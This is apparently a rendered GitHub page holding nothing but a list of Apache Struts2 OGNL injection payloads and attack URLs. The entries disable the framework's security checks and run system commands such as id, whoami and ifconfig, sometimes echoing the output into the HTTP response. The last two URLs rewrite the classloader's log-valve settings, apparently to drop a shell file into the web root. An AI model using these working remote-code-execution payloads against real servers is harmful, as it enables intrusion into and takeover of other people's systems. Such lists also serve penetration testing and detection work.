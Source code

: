 * %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
* ${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
* %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
* %{(#instancemanager=#application['org.apache.tomcat.InstanceManager']).(#stack=#request['struts.valueStack']).(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).(#bean.setBean(#stack)).(#context=#bean.get('context')).(#bean.setBean(#context)).(#macc=#bean.get('memberAccess')).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance('java.util.HashSet')).(#bean.put('excludedClasses',#emptyset)).(#bean.put('excludedPackageNames',#emptyset)).(#arglist=#instancemanager.newInstance('java.util.ArrayList')).(#arglist.add('id')).(#execute=#instancemanager.newInstance('freemarker.template.utility.Execute')).(#execute.exec(#arglist))}
* %{@java.lang.Runtime@getRuntime().exec('curl http://127.0.0.1:10000/')}
* %{(\"@java.lang.Runtime@getRuntime().exec(\'open /Applications/Calculator.app/\')\")(glassy)(amadeus)}
* ${(new java.lang.ProcessBuilder('calc')).start()}
* %{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app/")}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
* http://www.glassy.com/test.action?('#context[\'xwork.MethodAccessor.denyMethodExecution\']=false')(a)(b)&('@java.lang.Runtime@getRuntime().exec(\'open /Applications/Notes.app/\')')(a)(b)
* http://www.glassy.com/test.action?('#context[\'xwork.MethodAccessor.denyMethodExecution\']=false')(a)(b)&('#_memberAccess.excludeProperties=@java.util.Collections@EMPTY_SET')(a)(b)&('#_memberAccess.allowStaticMethodAccess=false')(a)(b)&('@java.lang.Runtime@getRuntime().exec(\'open /Applications/Notes.app/\')')(a)(b)
* user.name=glassy&user.age=12&user.birthDay='+(#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes'))+'&user.email=31312@qq.com
* %{@java.lang.Runtime@getRuntime().exec('open /Applications/Notes.app/')(glassy)}
* http://www.glassy.com/test.action?password=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes'))(meh)&z[(password)(meh)]=true
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "open /Applications/Notes.app/"})).start()}
* http://www.glassy.com/Struts2Demo_war_exploded/hello.jsp?fakeParam=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "open /Applications/Notes.app/"})).start()}
* http://www.glassy.com/Struts2Demo_war_exploded/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ifconfig').getInputStream()),#q}.action
* http://www.glassy.com/Struts2Demo_war_exploded/hello.action?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'/bin/bash', '-c','open /Applications/Notes.app/'})).start()}
* http://www.glassy.com/Struts2Demo_war_exploded/hello.action?debug=command&expression=#a=(new java.lang.ProcessBuilder('open /Applications/Notes.app/')).start()
* http://127.0.0.1/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
* http://127.0.0.1/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.prefix=shell